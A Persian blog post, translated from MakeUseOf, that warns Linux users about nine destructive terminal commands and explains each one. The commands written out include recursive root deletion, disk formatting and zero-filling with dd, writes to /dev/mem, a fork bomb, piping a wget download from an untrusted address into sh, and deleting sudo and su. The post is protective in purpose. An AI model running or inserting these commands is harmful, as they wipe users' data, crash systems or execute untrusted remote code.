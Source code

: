 ```yaml
---
layout: post
title: 9 دستور مهلک در گنو/لینوکس که هرگز نباید اجرا کنید
permalink: /گنو-لینوکس/9-دستور-مهلک-در-گنولینوکس-که-هرگز-نباید
post_id: 411
author: milad
categories: 
- ترمینال - Bash
- دستورات خطرناک لینوکس
- دستورات مهلک لینوکس
- دستوراتی که نباید اجرا کنید
- راهنما نکات و ترفندها
- گنو/لینوکس
---
```


سیستم عامل گنو/لینوکس و توزیع‌های مبتنی بر آن می‌توانند یک شمشیر دو لبه باشند. این شمشیر اینگونه درنظر می‌گیرد که شما می‌دانید چه می‌کنید و این آزادی را به شما می‌دهد که هر چه می‌خواهید انجام دهید، از شما سوال نمی‌پرسد و این زمانی خوب است که شما دقیقا بدانید چه می کنید، اما این را امکانپذیر میکند که در کسری از ثانیه سیستم خود را از حالت پایداری خارج و حتی نابود کنید.

فرقی ندارد یک تازه کار باشید یا یک کهنه سرباز گنو/لینوکس، شما هرگز نباید یک دستور را اجرا کنید مگر اینکه بدانید دقیقا چه کاری را انجام می‌دهد. در این پست تعدادی از مرگبارترین دستورات را مرور می‌کنیم.

more

## حذف بازگشتی


قدرت و قابلیت گنو/لینوکس در حذف هر چیز بدون پرسش یک نعمت بزرگ است، خصوصا اگر با پیغام هایی همچون حذف فایل امکانپذیر نمی‌باشد آشنا باشید، به هر حال یکی از خطرناک ترین دستورات از همین ویژگی قدرت گرفته و به شکل زیر است:

rm -rf /

خط بالا دستور rm (حذف) را به همراه پارامتر r به معنی recursive (بازگشتی) که باعث می‌شود دستور تمام زیر دایرکتوری‌های شاخه مشخص شده را شامل شود و f که بدون پرسش فایل‌های Read Only را حذف می‌کند (force) اجرا شود.
درواقع دستور بالا تمام فایل‌ها و دایرکتوری‌ها در سیستم شما را پاک می‌کند.

## فرمت هارد


هرچند ترمینال بهترین دوست کاربران است اما برای کاربران تاره‌کار گنو/لینوکس گزینه قابل اعتمادی نیست، زیرا راه‌های زیادی برای از بین بردن اطلاعات به صورت تصادفی را به کاربران می‌دهد. حذف بازگشتی یکی از این راه‌ها بود. یک راه دیگر استفاده از دستوراتی مشابه دستور زیر است:

mkfs.ext4 /dev/sda

دستور فوق هارد دیسک را برای استفاده از فایل سیستم ext4 فرمت می‌کند. فرمت کردن به خودی خود یک عمل مخرب نیست اما انجام اینکار بر روی تمامی یک دیسک که شامل فایل‌ها و... میشود همه چیز را از بین برده و می‌تواند سیستم شما را در حالت غیر قابل بازگشت قرار دهد.


## بازنویسی هارد دیسک


 اگر فرمت تصادفی هارد به اندازه کافی برایتان بد نیست، این امکان وجود دارد که هارد خود را با اطلاعات خام بازنویسی کنید، حداقل فرمت کردن یک عمل است که در حالت عادی استفاده میشود، اما بازنویسی هارد به نظر گزینه خوبی نمی‌آید.

command > /dev/sda

کلمه command در خط بالا را میتوان با هر دستور دیگری جایگزین کرد. علامت
** <**
 باعث میشود خروجی دستور سمت چپ به فایل سمت راست هدایت و در آن نوشته شود که در این مثال خروجی بر روی کل هارد نوشته خواهد شد و اطلاعات کاربر ازبین خواهد رفت.


## پاک کردن هارد دیسک


در اینجا یک روش دیگر برای از بین بردن سیستم‌ و فایل‌هایتان آمده است، این دستور هارد شما را با بیت صفر پر می‌کند. درواقع هیچ چیز بر روی هاردتان باقی نخواهد ماند.

dd if=/dev/zero of=/dev/sda

** dd**
 یک دستور سطح پایین است که برای نوشتن اطلاعات بر روی درایو های فیزیکی استفاده می‌شود، 
** if**
 منبع داده را مشخص میکند که در این مثال منبع /dev/zero میباشد که یک جریان نامحدود از صفر را ارائه می‌کند. 
** of**
 مشخص کننده مقصد این صفر ها میباشد که در این مثال /dev/sda یعنی آدرس هارد دیسک می‌باشد.


## انتقال همه چیز به هیچ چیز (یک تصور اشتباه)


اگر از شنیدن دستورات و راه‌هایی که منجر به خرابی هاردتان میشود خسته شده‌اید، صبر کنید، اینجا یک مورد بسیار جالب ارائه شده است. در لینوکس یک فایل ویژه وجود دارد(
** /dev/null**
) که تمام اطلاعاتی که به سمت آن ارسال میشود را نادیده می‌گیرد. می‌توانید آن را به عنوان یک سیاه‌چاله یا کاغذ خردکن در نظر بگیرید.

mv / /dev/null

برخلاف تصور عموم، در دستور فوق 
** mv**
شاخه / (روت) را به سمت سیاه‌چاله هدایت نخواهد کرد، زیرا انتقال یک دایرکتوری به فایل امکان پذیر نمی‌باشد، در ظاهر دستور فوق خطرناک به نظر میرسد اما در حقیقت اجرای این دستور امکانپذیر نمی‌باشد.


## Kernel Panic


برخی اوقات یک خطای درونی مهلک که غیرقابل کنترل میباشد رخ می‌دهد و سیستم یک پیغام مشابه Blue Screen به نمایش میگذارد: 
[Kernel Panic](https://en.wikipedia.org/wiki/Kernel_panic).

dd if=/dev/random of=/dev/port

echo 1 > /proc/sys/kernel/panic

cat /dev/port

cat /dev/zero > /dev/mem

پیچیدگی‌های دستورات فوق اهمیتی ندارد، چیزی که اهمیت دارد این است که این دستورات باعث رخ دادن Kernel Panic‌ و مجبور کردن کاربر به راه‌اندازی مجدد سیستم می شود.


## بمب انشعابی


Bash در کنار اجرای دستورات توانایی اجرای توابع را دارد که نوشتن اسکریپت برای انجام وظایف سیستم به صورت خودکار را آسان می‌کند. متاسفانه توابع هم ریسک خود را دارند:

:(){:|:&};:

دستور مبهم بالا Fork Bomb یا بمب انشعابی نامیده می‌شود. که یک نوع ویژه از Kernel Panic محسوب می‌شود. این دستور یک تابع به نام
** :**
 تعریف می‌کند که پس از اجرا به صورت بازگشتی دو بار خودش را صدا میزند، یک بار در Foreground و یک بار در Background.

به عبارتی دیگر هر بار که تابع اجرا شود دو Child Process ایجاد می‌کند و این Child Process ها Child Process های خودشان را ایجاد می‌کنند و این دوره به صورت نامحدود ادامه پیدا می‌کند. تنها را برای خلاصی از این حالت راه‌اندازی مجدد سیستم است.


## اجرای اسکریپت از راه دور


** wget**
محتوای یک لینک را دریافت می‌کند و میتوان برای مواردی همچون دانلود فایل‌ها مورد استفاده قرار بگیرد. به هر حال در مثال زیر یک نمونه خطرناک از بکارگیری این دستور را مشاهده می‌کنیم.

wget http://یک-آدرس-غیر-قابل-اعتماد -O- | sh

ترکیب بالا محتوای آدرس داده شده را دانلود کرده و به دستور sh ارسال می‌کند و این دستور محتوای دانلود شده را در ترمینال اجرا می‌کند. اگر url به یک اسکریپت مخرب اشاره داشته باشد سرنوشت خود را به دست این دستور سپرده اید.


## غیرفعال کردن حق ریشه در اجرای دستورات


توسط دستور زیر، دو دستور مهم در لینوکس (sudo و su) حذف می‌شوند. این دو دستور به شما اجازه اجرای برنامه‌ها با دسترسی root را می‌دهند. بدون وجود این دو دستور زندگی در لینوکس سیاه و تیره خواهد بود.

rm -f /usr/bin/sudo;rm -f /bin/su

به همین دلیل است که نباید هرگز این دستور را اجرا کنید. البته عموما راه‌هایی برای بازگرداندن فایل های حذف شده وجود دارد اما بازگرداندن اطلاعات همیشه امکانپذیر و به همان راحتی که فایل ها حذف شده‌اند نمی‌باشد.

برخی از دستورات فوق نیازمند دسترسی ریشه برای اجرا می‌باشند، اما به هر حال جزو خطرناک ترین دستورات شمرده می‌شوند.

روش‌های گوناگون و مثال‌هایی دیگری مشابه دستورات فوق موجود می‌باشد. برای مثال استفاده از /dev/random به جای /dev/zero باعث می‌شود هارد به جای پر شدن با صفر با بیت های تصادفی درواقع داده بی‌ارزش  پر شود.

شما هم می‌توانید تجارب و دستورات مخربی را که ‌باید از اجرای آنها خودداری کرد را با ما و سایر دوستان در قسمت نظرات به اشتراک بگذارید.
منبع: makeuseof
ترجمه: 
[تاکس گیک](http://tuxgeek.ir)شامل ویرایش و تغییرات.

آخرین ویرایش 22/11/93